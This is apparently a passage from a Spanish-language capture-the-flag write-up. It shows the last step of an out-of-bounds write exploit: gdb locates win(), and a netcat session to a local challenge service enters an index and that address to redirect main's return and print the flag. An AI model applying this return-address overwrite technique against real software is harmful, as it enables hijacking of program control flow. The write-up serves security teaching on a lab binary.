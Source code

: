 El valor que queremos escribir es la dirección de `win()`, de forma que cuando `main()` termine, en vez de saltar a su dirección de retorno normal `0x4020ca` salte a `win()`.

```
(gdb) print &win
$2 = (void (*)()) 0x401b15 <win>
(gdb) print/d 0x401b15
$3 = 4201237
```

Finalmente, introduciendo el índice calculado y la dirección de `win()` obtenemos la flag:

```
$ nc localhost 31337
Código secreto de ayuda para flag2: 0x7ffd12810470
Introduce un índice: 5
Introduce un valor: 4201237
Nope! Valores: 31337 31337
Enhorabuena! Aquí tienes tu flag:
ETSIIT_CTF{0ut_0f_b0unds_to_c0de_r3d1rection1337}
```

Cuando `main()` termina salta a `win()` y nos imprime la flag. Sin embargo, ya que `win()` no ha sido llamado de forma correcta con una instrucción `call`, cuando termina intenta retornar a una dirección inválida. Es por eso que se produce un segmentation fault y el programa termina.

